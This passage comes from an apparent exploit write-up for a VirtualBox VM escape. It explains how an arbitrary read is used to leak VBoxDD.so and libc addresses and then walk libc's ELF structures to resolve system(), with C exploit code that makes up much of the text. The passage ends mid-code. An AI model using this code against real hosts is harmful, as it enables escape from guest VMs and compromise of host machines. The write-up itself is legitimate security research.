 Notice that this only works for `_copy_from_user`. As for `_copy_to_user`, the first argument is set to be an user space address, but since `pDevIns` is in kernel space, we won't be able to call it without crashing the program. That being said, an user space arbitrary read should be enough for us to achieve code execution.

Now we can use the user space arbitrary read to leak some user space address. Remember the ring-3 MMIO registration table ? The one that mapped to both kernel space and user space ? We can read the user space address in that table first, then do the address leaking. Here I read the `pfnReadCallback` of e1000's ring-3 MMIO entry, which is `e1kMMIORead` in `VBoxDD.so`. After that we can leak the address in `VBoxDD.so`'s GOT table, and get the address of `libc.so`. 

```c
size_t e1kMMIORead = arb_read(inst, code, (sll)(r0Map + 0x188)); // e1kMMIORead
size_t vboxdd_base = e1kMMIORead - 0xff970;
size_t got_ioctl = vboxdd_base + 0x211bf0; // ioctl@got.plt
size_t ioctl = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, got_ioctl);
```

After that, we can start scanning the memory in `libc.so` and try resolve `system()`'s address. Some of you might know that in pwntools, it has a module called `DynELF` which can be used for leaking library address if we have a arbitrary read in the user space program. Here we're going to do something similar:

* After we got the libc address, we scan the memory page from high address to low address until we found `\x7fELF`. This way we can get the base addres of `libc.so`.
* After getting the base, get the program header and scan for the `.dynamic` section.
* Get the address of `SYMTAB` & `STRTAB` by scanning the `.dynamic` section.
* Scan `SYMTAB` & `STRTAB` to get `system()`'s address.

```c
// get libc base
size_t libc_base = 0;
size_t cur_addr = ioctl & ~0xfff;
while (true) {
    size_t cur_data = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr);
    if ( ( cur_data & 0xffffffff ) == 0x464c457f) {
        libc_base = cur_addr;
        break;
    }
    cur_addr -= 0x1000;
}
// get libc program header
size_t libc_ph = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, libc_base + 0x20) + libc_base ;
cur_addr = libc_ph;
// get dynamic section
size_t libc_dynamic = 0;
while(true) {
    size_t type = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr) & 0xffffffff;
    size_t vaddr = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr + 0x10);
    if (type == 2) { // .dynamic
        libc_dynamic = libc_base + vaddr;
        break;
    }
    cur_addr += 0x38;
}
// get SYMTAB & STRTAB
size_t libc_symtab = 0;
size_t libc_strtab = 0;
cur_addr = libc_dynamic;
while(true) {
    size_t type = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr);
    size_t vaddr = arb_read64_user(inst, code, paRing0, inst2, r0pDevIns, cur_addr + 8);
    if (type == 0) { // END OF DYNAMIC
        break;
    }
```